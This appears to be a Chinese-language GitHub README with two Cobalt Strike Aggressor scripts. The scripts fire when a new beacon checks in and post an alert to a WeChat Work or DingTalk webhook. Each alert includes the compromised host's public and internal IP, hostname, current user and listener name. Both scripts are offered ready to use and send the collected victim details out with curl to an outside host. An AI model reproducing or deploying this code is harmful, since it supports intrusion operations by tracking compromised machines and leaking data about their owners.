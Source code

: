 Cobalt Strike上线提醒，主机上线提醒
原理主要是beacon的执行的生命周期初始化的过程进行消息推送。当然还有其他生命周期可以介入。详细可以自行谷歌。以下是手懒族直接用的代码

配置链接参考：
https://zhuanlan.zhihu.com/p/129901896

## 微信机器人版本(自行替换dt_token为对应机器人的值)：

'''
$dt_token = "aaaaaa";
$dt_bot_webhookURL = 'https://qyapi.weixin.qq.com/cgi-bin/webhook/send?key='.$dt_token;
$targetInfo_txt = "## 有主机上线！\n>";
$listener_txt = "**所属项目：**";
$externalIp_txt = "  \n  >**公网IP：**";
$internalIp_txt = "  \n  >**内网IP：**";
$computerName_txt = "  \n  >**主机名：**";
$userName_txt = "  \n  >**当前用户：**";
on beacon_initial {
    local('$internalIP $computerName $userName');
    $internalIP = replace(beacon_info($1, "internal"), " ", "_");
    $externalIP = replace(beacon_info($1, "external"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");
    $userName = replace(beacon_info($1, "user"), " ", "_");
    $listennerName = replace(beacon_info($1, "listener"), " ", "_");
    $dt_msg = "{\"msgtype\": \"text\",\"text\": {\"content\":"."\"".$targetInfo_txt.$listener_txt.$listennerName.$externalIp_txt.$externalIP.$internalIp_txt.$internalIP.$computerName_txt.$computerName.$userName_txt.$userName."\""."}}";
    @curl_command = @('curl', '-H', 'Content-Type: application/json', '-d', $dt_msg, $dt_bot_webhookURL);
    exec(@curl_command);
}
'''
## 钉钉版本(自行替换dt_token为对应机器人的值)：
'''
$dt_token = "bbbbbb";
$dt_bot_webhookURL = 'https://oapi.dingtalk.com/robot/send?access_token='.$dt_token;
$targetInfo_txt = "## 有主机上线！\n>";
$listener_txt = "**所属项目：**";
$externalIp_txt = "  \n  >**公网IP：**";
$internalIp_txt = "  \n  >**内网IP：**";
$computerName_txt = "  \n  >**主机名：**";
$userName_txt = "  \n  >**当前用户：**";
on beacon_initial {
    local('$internalIP $computerName $userName');
    $internalIP = replace(beacon_info($1, "internal"), " ", "_");
    $externalIP = replace(beacon_info($1, "external"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");
    $userName = replace(beacon_info($1, "user"), " ", "_");
    $listennerName = replace(beacon_info($1, "listener"), " ", "_");
    $dt_msg = "{\"msgtype\": \"markdown\",\"markdown\": {\"title\":\"新主机上线\",\"text\":"."\"".$targetInfo_txt.$listener_txt.$listennerName.$externalIp_txt.$externalIP.$internalIp_txt.$internalIP.$computerName_txt.$computerName.$userName_txt.$userName."\""."}}";
    @curl_command = @('curl', '-H', 'Content-Type: application/json', '-d', $dt_msg, $dt_bot_webhookURL);
    exec(@curl_command);
}
'''
